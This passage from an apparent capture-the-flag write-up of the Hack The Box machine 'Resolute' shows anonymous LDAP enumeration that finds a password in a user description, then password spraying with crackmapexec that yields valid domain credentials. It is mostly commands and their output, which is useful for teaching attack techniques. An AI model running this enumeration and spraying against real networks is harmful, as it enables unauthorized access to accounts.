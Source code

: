 ```
cn: Simon Faraday
userPrincipalName: simon@megabank.local

cn: Naoki Yamamoto
userPrincipalName: naoki@megabank.local

[*] Bye!
```

I did another search in the LDAP directory but this time looking at the description because sometimes we can find additonial useful information in there. Here I see that the `marko` user has a note about the password being set to `Welcome123!`

```
root@beholder:~# windapsearch.py --dc-ip 10.10.10.169 --attrs sAMAccountName,description -U
[+] No username provided. Will try anonymous bind.
[+] Using Domain Controller at: 10.10.10.169
[+] Getting defaultNamingContext from Root DSE
[+]	Found: DC=megabank,DC=local
[+] Attempting bind
[+]	...success! Binded as: 
[+]	 None

[+] Enumerating all AD users
[+]	Found 25 users: 

[...]
description: Account created. Password set to Welcome123!
sAMAccountName: marko
[...]
```

## Password spraying - Access to user Melanie

The credentials `marko / Welcome123!` don't work with either SMB or WinRM:

```
root@beholder:~# evil-winrm -u marko -p Welcome123! -i 10.10.10.169
Evil-WinRM shell v2.0
Info: Establishing connection to remote endpoint
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError

root@beholder:~# smbmap -u marko -p Welcome123! -H 10.10.10.169
[+] Finding open SMB ports....
[!] Authentication error on 10.10.10.169
```

The password could be used by another account on the system so I'll use crackmapexec to try that password across all the accounts. I'll save my list of users to `users.txt` and use it with CME.

```
root@beholder:~/htb/resolute# crackmapexec smb 10.10.10.169 -u users.txt -p Welcome123!
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:MEGABANK) (signing:True) (SMBv1:True)
[...]
SMB         10.10.10.169    445    RESOLUTE         [+] MEGABANK\melanie:Welcome123!
```
